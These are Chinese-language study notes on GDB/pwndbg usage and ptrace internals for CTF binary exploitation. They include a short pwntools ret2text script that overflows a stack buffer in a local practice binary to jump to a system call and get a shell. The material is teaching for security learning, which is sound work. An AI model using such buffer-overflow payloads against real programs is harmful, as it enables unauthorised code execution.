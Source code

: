 gdb.attach()  连到第一次输入之后 断点下到 gets 之后那一句

pwndbg> vmmap 

查看地址是否可读可写

使用方法:x先 r ,然后Ctrl C暂停,缓存不会清空.再vmmap

#### 简单的偏移计算示例

![img](https://www.kro1lsec.com:442/images/2021/05/28/20210528160327.png)

![img](https://www.kro1lsec.com:442/images/2021/05/28/20210528160149.png)推断为esp寻址

```
from pwn import *

p = process("./ret2.text")
#esp寻址，编译器会优化。需要+8个字节

esp_padding = "junkjunk"
#32位为+4，64位+8
ebp_fake = "junk"
#定义char s 分配了64的空间
padding = "a"*0x64
#call system 函数 上一行 mov... 传入参数的地址
ret_addr = 0x0804863A
payload = padding + ebp_fake + esp_padding + p32(ret_addr)
p.sendlineafter("There is something amazing here,do you know any thing?\n"，payload)
p.interactive() 
```

### 组成架构

![img](https://www.kro1lsec.com:442/images/2021/05/28/20210528160151.png)

### **基本工作原理**

gdb 通过系统调用 `ptrace` 来接管一个进程的执行。ptrace 系统调用提供了一种方法使得父进程可以观察和控制其它进程的执行，检查和改变其核心映像以及寄存器。它主要用来实现断点调试和系统调用跟踪。ptrace 系统调用的原型如下：

```
#include <sys/ptrace.h>
long ptrace(enum __ptrace_request request, pid_t pid, void *addr, void *data);
```

- **pid_t pid**：指示 ptrace 要跟踪的进程。
- **void \*addr**：指示要监控的内存地址。
- **void \*data**：存放读取出的或者要写入的数据。
- **enum __ptrace_request request**：决定了系统调用的功能，几个主要的选项：
  - *PTRACE_TRACEME*：表示此进程将被父进程跟踪，任何信号（除了 `SIGKILL`）都会暂停子进程，接着阻塞于 `wait()` 等待的父进程被唤醒。子进程内部对 `exec()` 的调用将发出 `SIGTRAP` 信号，这可以让父进程在子进程新程序开始运行之前就完全控制它。
  - *PTRACE_ATTACH*：attach 到一个指定的进程，使其成为当前进程跟踪的子进程，而子进程的行为等同于它进行了一次 PTRACE_TRACEME 操作。但需要注意的是，虽然当前进程成为被跟踪进程的父进程，但是子进程使用 `getppid()` 的到的仍将是其原始父进程的 pid。
  - *PTRACE_CONT*：继续运行之前停止的子进程。可同时向子进程交付指定的信号。
